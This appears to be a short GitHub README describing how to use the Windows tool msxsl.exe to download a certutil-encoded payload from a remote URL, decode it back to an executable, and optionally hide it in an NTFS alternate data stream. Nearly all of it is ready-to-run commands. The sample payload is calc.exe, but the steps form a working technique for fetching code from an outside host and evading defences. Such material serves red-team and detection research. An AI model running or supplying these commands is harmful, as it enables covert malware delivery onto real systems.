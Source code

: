 # Use MSXSL to download file

## Create payload and insert into the XSL file:
```
certutil -encode C:\Windows\System32\calc.exe calc_payload.txt
```

Now copy the certutil encoded payload from calc_payload.txt and insert into calc_xsl.xml between `<TEST> </TEST>`


## Use MSXSL to download XSL file with certutil encoded payload and save to file:
```
msxsl.exe "https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/calc.xml" "https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/transform.xsl" > <filename>

certutil -decode <filename> calc.exe
```

## Use MSXSL to download XSL file with certutil encoded payload and save to ADS:
```
msxsl.exe "https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/calc.xml" "https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/transform.xsl" > <filename>:<ADS name>

certutil -decode <filename>:<ADS name> calc.exe
```
